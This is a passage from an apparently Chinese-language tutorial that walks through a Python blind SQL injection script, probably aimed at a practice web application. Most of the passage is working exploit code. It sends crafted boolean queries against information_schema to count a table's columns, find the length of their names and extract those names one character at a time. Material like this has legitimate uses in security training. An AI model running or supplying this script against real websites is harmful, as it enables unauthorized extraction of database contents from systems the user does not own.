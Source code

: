 ```python
        if len(name) > 0:
            print('\n==>',name)
            self.table_name.append(name)
        else:
            print('\ncan not get the table_name')
```

运行结果：

![MJie0g.png](https://s2.ax1x.com/2019/11/13/MJie0g.png)

### 获取表列数量

```python
    def get_column_num(self,table_name):
        self.column_num = 0
        for i in range(1,30):
            self.process('get_column_num',i,30)
            theurl = self.url + "1' and (select count(column_name) as a from information_schema.columns where table_schema=database() and table_name='{0}' having a={1})%23".format(table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.column_num = i
                break
        if self.column_num > 0:
            print('\n==>',self.column_num)
```

### 获取总长度

```python
    def get_column_length(self,table_name):
        for i in range(1,100):
            self.process('get_column_length',i,100)
            theurl = self.url + "1' and (select length(group_concat(column_name)) as a from information_schema.columns where table_schema=database() and table_name='{0}' having a={1})%23".format(table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.column_length.append(i)
                break
        if len(self.column_length) >= 1:
            print('\n==>',self.column_length)
        else:
            print('\ncan not get the column_length')
```

### 获取列名

```python
    def get_column_name(self,table_name):
        name = ''
        for i in range(1,self.column_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_column_name'.format(str(i)),j,100)
                theurl = self.url + "1' and (select ascii(substring(group_concat(column_name),{0},1)) as a from information_schema.columns where table_schema=database() and table_name='{1}' having a={2})%23".format(str(i),table_name,str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
```